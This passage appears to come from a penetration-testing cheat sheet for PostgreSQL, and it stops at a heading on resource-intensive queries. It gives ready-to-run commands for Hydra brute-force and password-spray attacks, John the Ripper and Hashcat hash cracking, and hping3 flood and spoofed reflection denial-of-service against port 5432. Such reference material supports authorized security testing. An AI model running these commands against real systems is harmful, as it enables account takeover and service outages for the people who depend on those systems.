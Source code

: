 *   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra postgres://<target_ip> -s 5432 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra postgres://<target_ip> -s 5432 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Offline Hash Cracking

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```

\


*   **Tool:** \[\[HashCat Cheat Sheet]]

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```
* **Description:** Cracks dumped password hashes to gain access.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p 5432 --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p 5432 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### Exploiting Resource-Intensive Queries
